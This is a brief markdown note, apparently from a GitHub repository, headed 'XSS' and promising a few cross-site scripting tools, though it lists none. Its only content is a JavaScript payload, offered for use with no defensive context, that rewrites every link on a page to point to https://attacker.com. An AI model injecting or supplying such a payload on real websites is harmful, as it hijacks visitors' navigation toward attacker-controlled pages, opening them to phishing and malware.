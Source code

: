 # XSS

Few famous XSS tool



Payload to replace all links
'''
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});
'''
